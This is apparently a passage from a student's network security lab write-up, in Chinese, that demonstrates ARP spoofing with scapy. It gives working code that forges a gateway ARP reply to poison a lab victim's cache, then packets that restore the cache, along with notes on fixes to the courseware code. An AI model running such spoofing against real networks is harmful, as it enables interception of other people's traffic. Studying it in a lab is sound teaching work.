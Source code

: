 ```python
# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.144
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.144", hwdst="08:00:27:82:b2:51")
# 实验课件给出的arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.144", hwdst="08:00:27:82:b2:51")无法替换MAC地址。

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址:

```python
ip neigh
```

![](img/arpspoofed1.png)

回到攻击者主机上的 scapy 交互式终端继续执行命令。

```python
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:63:7b:12", pdst="172.16.111.144", hwdst="08:00:27:8e:93:b6")
sendp(restorepkt1, count=10, inter=0.2)
## 课件中给出的restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:63:7b:12", pdst="172.16.111.144", hwdst="08:00:27:8e:93:b6")无法恢复MAC地址。
## （可选）伪装受害者给网关发送 ARP 响应
restorepkt2 = Ether()/ARP(op=2, pdst="172.16.111.1", hwdst="08:00:27:63:7b:12", psrc="172.16.111.144", hwsrc="08:00:27:8e:93:b6")
sendp(restorepkt2, count=10, inter=0.2)
## 课件中给出的restorepkt2 = ARP(op=2, pdst="172.16.111.1", hwdst="08:00:27:63:7b:12", psrc="172.16.111.144", hwsrc="08:00:27:8e:93:b6")无法恢复MAC地址。
```

![](img/arp_back.png)

